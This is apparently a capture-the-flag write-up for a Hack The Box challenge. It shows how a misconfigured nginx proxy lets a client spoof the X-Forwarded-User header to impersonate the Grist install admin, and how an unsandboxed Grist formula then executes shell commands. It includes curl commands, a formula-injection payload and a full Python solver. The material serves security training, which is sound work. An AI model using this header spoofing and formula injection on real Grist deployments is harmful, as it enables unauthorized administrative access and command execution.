




<font size='10'>Trust Fall</font>

20<sup>th</sup> April 2026

Prepared By: `dimasmaulana`

Challenge Author(s): `dimasmaulana`

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

Trust Fall requires reading a publicly exposed Grist rollout note to discover the install-admin email address, then sending that address in the `X-Forwarded-User` header to impersonate the administrator through the misconfigured nginx reverse proxy. With install-admin access, a Python formula column is injected into a scratch document. Because the Grist deployment runs with `GRIST_SANDBOX_FLAVOR=unsandboxed`, the formula executes as a shell command inside the container and returns the flag.

## Description

Korvia operates an internal operations platform used by Directorate 9 to stage and coordinate infrastructure attacks against election systems. Gilded Weaver analysts rely on it as a key node before the blackout, and Task Force Nightfall has been authorized to hack back. You are tasked to breach D9's staging platform, seize access to the internal operator workspace, and extract intelligence before the election is derailed.

## Skills Required

- Familiarity with HTTP header handling and reverse-proxy trust boundaries
- Ability to enumerate REST APIs and distinguish public from private data
- Basic understanding of how spreadsheet formula runtimes become code-execution surfaces when sandboxing is disabled

## Skills Learned

- Identify the security impact of running Grist in header-only forward-auth mode without proxy-level header sanitization
- Recognize that public documents can disclose enough identity information to drive an impersonation attack
- Convert install-admin access in an unsandboxed Grist deployment into arbitrary command execution and flag retrieval

# Enumeration

Opening the challenge URL in a browser reveals the Korvia Federation Gateway landing page. The page exposes a single public link to the SSO rollout memo.



Clicking **Public Rollout Memo** opens the `sso-rollout` Grist document, which is shared as publicly readable. The document contains two tables: `Contacts` and `Agencies`. The Contacts table lists email addresses for each enrolled team — row 1 belongs to the Platform Admin.





Attempting to access the private operations workspace without the forward-auth header shows a Grist error — because `GRIST_IGNORE_SESSION=true` is set, Grist has no traditional login page and cannot identify an unauthenticated visitor.



## Analyzing the source code

The challenge ships three relevant components:

- `challenge/nginx/default.conf` — the nginx reverse proxy configuration.
- `challenge/Dockerfile` — Grist environment variables that configure the forward-auth trust model.
- `challenge/seed-challenge.mjs` — the seeding script that populates the public document and private workspace.

The nginx configuration proxies all non-root traffic to the Grist backend without stripping or overwriting the forward-auth header:

```nginx
location / {
    proxy_pass http://127.0.0.1:8484;
    proxy_http_version 1.1;
    proxy_set_header Host $http_host;
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header X-Forwarded-Proto $scheme;
}
```

`X-Forwarded-User` is not listed — the directive is simply absent, so a client-supplied value passes through untouched.

The Grist environment in `Dockerfile` enables header-based authentication and disables sandboxing:

```dockerfile
ENV GRIST_FORWARD_AUTH_HEADER=X-Forwarded-User
ENV GRIST_IGNORE_SESSION=true
ENV GRIST_SANDBOX_FLAVOR=unsandboxed
ENV GRIST_DEFAULT_EMAIL=alex.caldwell@grist.htb
```

`GRIST_IGNORE_SESSION: true` tells Grist to derive the caller's identity exclusively from the header named in `GRIST_FORWARD_AUTH_HEADER`. `GRIST_DEFAULT_EMAIL` sets which email address holds the install-admin role.

The seeding script places the admin email in a publicly readable Contacts table:

```javascript
await ensureTable(
  publicDocId,
  "Contacts",
  [
    { id: "Team", type: "Text" },
    { id: "Email", type: "Text" },
    { id: "Notes", type: "Text" },
  ],
  {
    Team: "Platform Admin",
    Email: ADMIN_EMAIL,
    Notes: "Identity is injected by the forward-auth gateway for every request.",
  },
);
```

# Solution

The intended solution reads the public rollout note to recover the admin email, spoofs that identity through the misconfigured proxy, and deploys a formula that runs `cat /flag.txt` via Python's `os.popen()`.

## Finding the vulnerability

The exploit depends on two weaknesses chained together:

1. The nginx reverse proxy does not strip `X-Forwarded-User` — a client-supplied header reaches Grist unchanged.
2. Grist is configured to derive the caller's identity exclusively from that header (`GRIST_IGNORE_SESSION=true`) and the install-admin role belongs to the email in `GRIST_DEFAULT_EMAIL`. Any client that supplies that address is treated as the install admin.

Once install-admin access is established, the third issue converts access into code execution: `GRIST_SANDBOX_FLAVOR=unsandboxed` runs formula Python in the container process without isolation. A formula cell can call `__import__("os").popen("...")` and read the result as the cell's value.

## Exploitation

### Connecting to the server

Start the challenge and open `http://127.0.0.1:1337` in a browser. The landing page shows the Korvia Federation Gateway with a link to the public rollout memo.

### Step 1 — Recovering the admin email from the public note

The SSO-Rollout document is shared as anonymously readable. Fetch the Contacts table to extract the install-admin address:

```bash
curl -s http://127.0.0.1:1337/api/docs/sso-rollout/tables/Contacts/records
```

Response:

```json
{
  "records": [
    {
      "id": 1,
      "fields": {
        "Team": "Platform Admin",
        "Email": "alex.caldwell@grist.htb",
        "Notes": "Primary contact for platform access requests."
      }
    }
  ]
}
```

### Step 2 — Impersonating the install admin

Send the recovered address in `X-Forwarded-User`. Grist trusts the header and responds with the session identity:

```bash
curl -s http://127.0.0.1:1337/api/session/access/active \
  -H 'X-Forwarded-User: alex.caldwell@grist.htb'
```

Response:

```json
{
  "user": {
    "email": "alex.caldwell@grist.htb",
    "isInstallAdmin": true
  },
  "org": {
    "name": "ops",
    "access": "owners"
  }
}
```

`isInstallAdmin: true` confirms the impersonation succeeded.

### Step 3 — Locating a writable workspace

Enumerate the available workspaces to find one that accepts new documents:

```bash
curl -s http://127.0.0.1:1337/api/orgs/current/workspaces \
  -H 'X-Forwarded-User: alex.caldwell@grist.htb'
```

Response excerpt:

```json
[
  {
    "id": 5,
    "name": "Operations",
    "access": "owners",
    "docs": [{ "name": "Automation-Lab", "urlId": "automation-lab" }]
  }
]
```

The Operations workspace is accessible with `owners` rights.

### Step 4 — Creating a scratch document

Create a new document in the Operations workspace:

```bash
WS_ID=5

DOC_ID=$(curl -s http://127.0.0.1:1337/api/workspaces/${WS_ID}/docs \
  -H 'X-Forwarded-User: alex.caldwell@grist.htb' \
  -H 'Content-Type: application/json' \
  -d '{"name":"OpsScratch"}' | tr -d '"')
```

### Step 5 — Injecting the formula and reading the flag

Add a table with a formula column that executes `cat /flag.txt` through Python's `os.popen()`, then add a record to trigger evaluation:

```bash
curl -s http://127.0.0.1:1337/api/docs/${DOC_ID}/apply \
  -H 'X-Forwarded-User: alex.caldwell@grist.htb' \
  -H 'Content-Type: application/json' \
  -d '[
    ["AddTable","CommandOutput",[
      {"id":"Result","type":"Any","isFormula":true,
       "formula":"__import__(\"os\").popen(\"cat /flag.txt\").read()"}
    ]],
    ["AddRecord","CommandOutput",null,{}]
  ]'

curl -s http://127.0.0.1:1337/api/docs/${DOC_ID}/tables/CommandOutput/records \
  -H 'X-Forwarded-User: alex.caldwell@grist.htb'
```

Response:

```json
{
  "records": [
    {
      "id": 1,
      "fields": {
        "Result": "HTB{...}\n"
      }
    }
  ]
}
```

### Getting the flag

A final summary of the flag retrieval path:

1. Fetch `/api/docs/sso-rollout/tables/Contacts/records` without authentication to read the admin email from the public note.
2. Send `X-Forwarded-User: alex.caldwell@grist.htb` to any Grist API endpoint — nginx passes the header through and Grist grants install-admin access.
3. Create a scratch document in the Operations workspace.
4. POST an `AddTable` + `AddRecord` action with a formula containing `__import__("os").popen("cat /flag.txt").read()`.
5. Fetch the table records — the formula has executed and the `Result` field contains the flag.

The complete solver is `htb/solver.py`:

```python
#!/usr/bin/env python3

import argparse
import re
import time

import requests

parser = argparse.ArgumentParser()
parser.add_argument("--host", default="127.0.0.1")
parser.add_argument("--port", type=int, default=1337)
args = parser.parse_args()

BASE = f"http://{args.host}:{args.port}"

# Step 1 — read the admin email from the public rollout note
records = requests.get(f"{BASE}/api/docs/sso-rollout/tables/Contacts/records").json()
admin_email = records["records"][0]["fields"]["Email"]
print(f"[+] admin email: {admin_email}")

# All subsequent requests spoof that identity
headers = {"X-Forwarded-User": admin_email}

# Step 2 — confirm install-admin access
session_info = requests.get(f"{BASE}/api/session/access/active", headers=headers).json()
assert session_info["user"]["isInstallAdmin"], "impersonation failed"
print(f"[+] spoofed as install admin")

# Step 3 — find a writable workspace
workspaces = requests.get(f"{BASE}/api/orgs/current/workspaces", headers=headers).json()
workspace = next(w for w in workspaces if w.get("access") in {"owners", "editors"})
print(f"[+] workspace: {workspace['name']} (id={workspace['id']})")

# Step 4 — create a scratch document
doc_id = requests.post(
    f"{BASE}/api/workspaces/{workspace['id']}/docs",
    headers=headers,
    json={"name": "scratch"},
).json()
print(f"[+] created document: {doc_id}")

# Step 5 — inject a formula that runs cat /flag.txt
requests.post(
    f"{BASE}/api/docs/{doc_id}/apply",
    headers=headers,
    json=[
        ["AddTable", "Output", [{"id": "Result", "type": "Any", "isFormula": True,
                                  "formula": '__import__("os").popen("cat /flag.txt").read()'}]],
        ["AddRecord", "Output", None, {}],
    ],
)

# Step 6 — poll until the formula result is available
for _ in range(15):
    time.sleep(0.5)
    rows = requests.get(f"{BASE}/api/docs/{doc_id}/tables/Output/records", headers=headers).json()
    result = rows.get("records", [{}])[0].get("fields", {}).get("Result", "")
    if result.strip():
        break

flag = re.search(r"HTB\{[^}]+\}", result)
assert flag, f"flag not found in output: {result!r}"
print(flag.group(0))
```

Running the solver prints the flag:

```text
$ python3 htb/solver.py --host 127.0.0.1 --port 1337
[+] admin email: alex.caldwell@grist.htb
[+] spoofed as install admin
[+] workspace: Operations (id=3)
[+] created document: wU74n7xZr9RJ1RWKQkGJqh
HTB{...}
```
